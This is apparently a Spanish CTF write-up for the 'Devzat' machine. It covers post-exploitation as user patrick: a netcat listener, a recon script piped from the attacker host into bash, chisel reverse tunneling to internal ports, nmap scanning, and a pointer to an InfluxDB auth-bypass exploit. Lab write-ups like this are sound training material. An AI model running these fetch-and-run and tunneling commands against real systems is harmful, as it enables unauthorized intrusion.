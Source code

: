 Recibimos una consola como el tal patrcick con netcat ```sudo nc -nlvp 443```  
Corremos nuestro script de reconocimeinto ```curl http://10.10.14.12/lin_info_xii.sh | bash```:  
- Somos patrick, el resto de usaurios son root y catherine  
- Hay dos backups /var/backups/devzat-dev.zip y /var/backups/devzat-main.zip  
- Se esta corriendo por root -> /root/devzat/start.sh devchat  
- No hay capabilities ni SUIDs interesantes  
- Tanto el puerto 8086, como el 5000 como el 8443 están abiertos solo al localhost  
Antes habiamos leido que el devchat corre por el localhost en el puerto 5000:  
```console
patrick@devzat:~/pets$ ssh -l patrick 127.0.0.1 -p 5000
kex_exchange_identification: Connection closed by remote host
```
En cuanto a los puertos 8086 y 8443:  
```console
patrick@devzat:/home/catherine$ curl http://127.0.0.1:8443
curl: (1) Received HTTP/0.9 when not allowed
```
Haremos port forwarding para traernoslos mejor.  
```console
patrick@devzat:/home/catherine$ cd /tmp
patrick@devzat:/tmp$ curl http://10.10.14.12/binarios/chisel_amd64 -O
patrick@devzat:/tmp$ chmod +x chisel_amd64; mv chisel_amd64 chisel
└─$ ./chisel_amd64 server --reverse -p 1234 &
patrick@devzat:/tmp$ ./chisel client 10.10.14.12:1234 R:8086:127.0.0.1:8086 R:8443:127.0.0.1:8443 R:5000:127.0.0.1:5000
```
Ya podemos acceder a esos puertos desde nuestro sistema:  
Por curl no hay resultado, por netcat pone cosas raras... Pero sabemos que esto decia que habia una versión inestable del chat corriendo por el puerto interno 5000  
```console
└─$ nc 127.0.0.1 8443   
SSH-2.0-Go
^C
└─$ ssh -l patrick 127.0.0.1 -p 5000  # Connection closed
└─$ ssh -l patrick 127.0.0.1 -p 8443
Welcome to the chat. There are no more users
devbot: patrick has joined the chat
patrick: /commands
[SYSTEM] file - Paste a files content directly to chat [alpha] # este no estaba en la version públic.a
patrick: /file
[SYSTEM] Please provide file to print and the password
```
No tenemos contraseña y no sabemos que hacer, ademas no sabemos que son estos puertos internos  
```
└─$ nmap -sCV -p8443,8086,5000 127.0.0.1 -T5 -v
5000/tcp open  upnp?
Server: My genious go pet server   # La aplicacion de las mascotas :V
8086/tcp open  http    InfluxDB http admin 1.7.5 # ???
8443/tcp open  ssh     (protocol 2.0) # El servidor del chat
```
Segun lo que he leido en internet influxdDb es un sistema de bases de datos parecido a sql  
En la web de [hacktricks](https://book.hacktricks.xyz/network-services-pentesting/8086-pentesting-influxdb) dice que hay que registrarse con un cliente con un usuario/contraseña, no disponemos  
de ello, pero nos hablan de un [exploit](https://github.com/LorenzoTullini/InfluxDB-Exploit-CVE-2019-20933) para bypasearlo.  
